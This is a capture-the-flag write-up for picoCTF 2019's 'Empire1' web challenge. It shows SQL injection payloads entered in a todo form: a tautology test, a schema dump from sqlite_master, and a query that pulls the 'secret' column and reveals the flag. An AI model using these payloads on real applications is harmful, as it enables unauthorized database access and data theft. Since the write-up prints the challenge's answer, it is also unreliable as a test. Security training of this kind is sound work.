 # Empire1 - 400 points
Web_Exploitation

## Description:
> Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. https://2019shell1.picoctf.com/problem/12234/ (link) Can you first find the secret code they assigned to you?

## Hint:
> Pay attention to the feedback you get
> There is *very* limited filtering in place - this to stop you from breaking the challenge for yourself, not for you to bypass.
> The database gets reverted every 2 hours if you do break it, just come back later

## Solving:
So we are brought to the 'Evil Empire Company' website and are given a login and register page. Witht the hint emphasising databases we know that's where we want to look. No apparent SQLi attacks here so after registering an account we are given access to a 'Add a Todo' and a 'Your Todos' page. The former allows us to input some text and submit. This is then posted to the 'Your Todos' page with the prefix '**Very Urgent:** '.
After putting a very basic SQL injection test of ```' OR '1' = '1``` the query is accepted and is posted as ```1``` on the list page - meaning that the server processed the request and returned a 'True' value.
With this we can then try and enumerate what DBMS the server is using by putting some fingerprinting queries:
MySQL:
```php
' SELECT @@version
```
> Internal Server Error
> The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.

Since this resulted in an error I decided I would then try a SQLite SQLi:
```php
' || (SELECT sql FROM sqlite_master WHERE type='table') || '

result:

CREATE TABLE user ( id INTEGER NOT NULL, username VARCHAR(64), name VARCHAR(128), password_hash VARCHAR(128), secret VARCHAR(128), admin INTEGER, PRIMARY KEY (id) ) 
```
so from this we can identify that the table 'user' has a column named 'secret'. so if we adjust our SQLi we can hopefully output a flag in the 'secret' column:
```php
' || (SELECT secret FROM user WHERE secret LIKE 'picoCTF%') || '

results:

picoCTF{wh00t_it_a_sql_inject46527b2c} 
```



### Flag: 

```
picoCTF{wh00t_it_a_sql_inject46527b2c} ```
